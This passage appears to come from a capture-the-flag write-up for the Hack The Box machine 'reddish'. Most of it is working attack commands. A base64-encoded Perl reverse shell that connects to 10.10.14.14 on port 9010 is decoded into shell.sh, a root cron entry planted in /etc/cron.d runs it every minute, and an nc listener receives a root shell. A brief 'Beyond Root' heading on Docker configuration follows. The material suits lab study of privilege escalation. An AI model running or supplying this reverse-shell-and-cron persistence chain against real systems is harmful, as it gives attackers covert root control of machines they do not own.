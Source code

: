 

    # echo cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTAuMTAuMTQuMTQiOyRwPTkwMTA7c29ja2V0KFMsUEZfSU5FVCxTT0NLX1NUUkVBTSxnZXRwcm90b2J5bmFtZSgidGNwIikpO2lmKGNvbm5lY3QoUyxzb2NrYWRkcl9pbigkcCxpbmV0X2F0b24oJGkpKSkpe29wZW4oU1RESU4sIj4mUyIpO29wZW4oU1RET1VULCI+JlMiKTtvcGVuKFNUREVSUiwiPiZTIik7ZXhlYygiL2Jpbi9zaCAtaSIpO307Jwo= | base64 -d > shell.sh
    # cat /mnt/opt/shell.sh
    perl -e 'use Socket;$i="10.10.14.14";$p=9010;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'



Now write the cron:



    # cd /mnt/etc/cron.d/
    # ls
    mdadm
    popularity-contest
    # echo '* * * * * root sh /opt/shell.sh' > shell 



Catch the callback:



    root@kali# nc -lnvp 9010
    listening on [any] 9010 ...
    connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 53548
    /bin/sh: 0: can't access tty; job control turned off
    # hostname
    reddish
    # whoami
    root



## Beyond Root

### Docker Configuration

Once I have root, I like to go back and look at how things were
configured. In this case, the docker configuration is interesting.
